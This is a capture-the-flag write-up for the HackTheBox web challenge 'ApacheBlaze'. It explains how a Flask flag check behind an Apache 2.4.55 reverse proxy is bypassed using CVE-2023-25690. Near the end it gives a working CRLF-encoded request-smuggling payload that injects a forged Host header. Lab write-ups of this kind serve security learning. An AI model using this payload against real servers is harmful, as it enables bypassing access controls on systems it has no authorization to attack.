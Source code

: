 # [ApacheBlaze](https://app.hackthebox.com/challenges/ApacheBlaze) [HTB]
_Web_

## Investigating the website
This challenge's website hosts 4 different games, including:

> Click topia <br>
💎 Tap Tap equals to flag. 💎

Clicking on the play button returns a hint: 

> This game is currently available only from `dev.apacheblaze.local`.

As there is nothing else on the site (none of the other games actually works), I start looking at the code.

## Analyzing the code
This time I'm dealing with a Flask server. A simple search in the code reveals what is the condition to get the flag:
```py
if game == 'click_topia':
    print(f'{request.headers}', file=sys.stderr)
    if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
        return jsonify({
            'message': f'{app.config["FLAG"]}'
        }), 200
    else:
        return jsonify({
            'message': 'This game is currently available only from dev.apacheblaze.local.'
        }), 200
```
This looks straightforward, right? I add the required header to the HTTP search, run it and get the ~~flag~~ same exact response. 

What's going on? 

## Blaming Apache
Since simply setting the header doesn't work, and there is nothing suspicious in the rest of the Flask code, good old Apache Server must be the one sabotaging my exploit.

First, I take a look at the `httpd.conf` file, and discover that the server is using an internal proxy:
```
<VirtualHost *:1337>

    ServerName _

    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on

    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
    ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"

</VirtualHost>

<VirtualHost *:8080>

    ServerName _

    ProxyPass / balancer://mycluster/
    ProxyPassReverse / balancer://mycluster/

    <Proxy balancer://mycluster>
        BalancerMember http://127.0.0.1:8081 route=127.0.0.1
        BalancerMember http://127.0.0.1:8082 route=127.0.0.1
        ProxySet stickysession=ROUTEID
        ProxySet lbmethod=byrequests
    </Proxy>

</VirtualHost>
```
From the [Apache documentation](https://httpd.apache.org/docs/trunk/mod/mod_proxy.html#x-headers) I discover that `ProxyPass` is actually responsible for setting `X-Forwarded-Host` to the `Host` of my original request. This means I must find a way to set `Host` to `dev.apacheblaze.local`.

## Smuggling the Host
From the Dockerfile, I discover the Apache version that is being used: 2.4.55. A search on Google returns that this version is vulnerable to HTTP Response Splitting (CVE-2023-25690). 

My aim is to smuggle this request:
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local
```
To do so, I follow [this PoC](https://github.com/dhmosfunk/CVE-2023-25690-POC) and perform header injection:
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/api/games/click_topia HTTP/1.1
[...]
```
The injection is successful and I receive the flag!

## Read more!
[➡️ Next challenge: Encryption Bot](./encryptionbot.md)